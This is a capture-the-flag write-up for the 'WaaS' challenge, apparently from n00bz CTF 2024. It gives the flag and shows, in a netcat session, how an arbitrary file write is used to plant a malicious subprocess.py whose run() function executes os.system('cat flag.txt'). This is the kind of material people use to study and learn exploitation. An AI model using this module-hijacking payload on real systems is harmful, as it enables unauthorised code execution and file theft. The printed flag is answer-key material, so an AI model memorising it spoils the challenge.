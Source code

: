 # WaaS
Writing as a Service! Author: NoobMaster + NoobHacker

# Flag
```
n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_8ea61a9c227a}
```

# Solution
The service allows us to write into files in the filesystem (excluding `/bin`,`/proc` and `chall.py` itself).

As the script imports the `subprocess` module, we can trick the Python script into importing our own malicious script by writing into a file named `subprocess.py`. We can create our own `run()` function to execute commands when it is called in the script (see `subprocess.py`). 

```shell-session
jerald@DESKTOP-HGSM9AM:~/ctf/n00bz2024/misc/waas$ nc challs.n00bzunit3d.xyz 10433
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: 1  
Enter file name: subprocess.py
Data: def run(args, capture_output): import os; os.system('cat flag.txt')
Data written sucessfully!
[1] Write to a file
[2] Get the flag
[3] Exit

<Exit the program and reconnect>

jerald@DESKTOP-HGSM9AM:~/ctf/n00bz2024/misc/waas$ nc challs.n00bzunit3d.xyz 10433
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: 2
n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_8ea61a9c227a}
```